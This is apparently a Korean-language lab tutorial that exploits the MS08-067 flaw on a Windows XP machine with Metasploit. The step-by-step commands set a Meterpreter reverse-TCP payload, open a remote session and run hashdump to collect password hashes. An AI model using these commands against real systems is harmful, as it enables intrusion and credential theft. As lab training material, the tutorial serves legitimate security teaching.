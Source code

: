 본격적으로  해킹에 들어가보자

우리는 이미 취약점 분석에서 windows XP 우리 네트워크에서 MS08-067이라는 취약점을 가지고 있다는 것을 확인했다. 그래서 이 시스템을 해킹하고 password hash를 모아보자.

 

### 1) Windows xp 에서 password 수집

 먼저 칼리리눅스의 커맨드 창을 열고 루트계정으로 진입한 다음 metasploit을 실행시키자

```jsx
root@kali ~# msfconsole
```

 우리는 이미 2일차에 했던 nessus 취약점 분석을 통해 윈도우xp가 ms08-067 취약점을 가지고 있다는 것을 이미 알고있다.

```jsx
msf5 > search ms08-067
```

search 명령어를 통해 알아낸 모듈을 use 명령어로 사용한다.

```jsx
msf5 > use exploit/windows/smb/ms08_067_netapi
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fc266169-e073-423f-a1ab-5dd073d55287/winXPhash.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fc266169-e073-423f-a1ab-5dd073d55287/winXPhash.png)

```jsx
> set payload windows/meterpreter/reverse_tcp_allports
> show options
```

meterpreter 실행 후, 옵션창을 켜서 현재 세팅을 확인한다. 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/20c8ca1e-fe10-4ff1-bb53-53bb14e16d01/winXPhash4.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/20c8ca1e-fe10-4ff1-bb53-53bb14e16d01/winXPhash4.png)

required에 'yes' 라고 적혀있지만 'current settings'에 세팅이 되어있지 않고 비어있는 것들을 설정해주어야한다.

RHOST(공격할 대상의 IP = WinXP의 IP) LHOST(Local HOST = kali의 IP) 를 설정해주자

```jsx
> set RHOST [공격할 대상의 IP]
> set LHOST [Local Host IP]
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cfefb04a-066c-4685-a711-1604c5d5da23/winXPhash3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cfefb04a-066c-4685-a711-1604c5d5da23/winXPhash3.png)

모든 설정을 완료 했으면 실행시켜주자

```jsx
> run
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ccf5f28f-918f-4127-81ef-ff109eebd808/winXPhash5.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ccf5f28f-918f-4127-81ef-ff109eebd808/winXPhash5.png)

XP에 대한 미터프리터 세션이 열렸다.

```jsx
meterpreter > sysinfo
meterpreter > hashdump
```
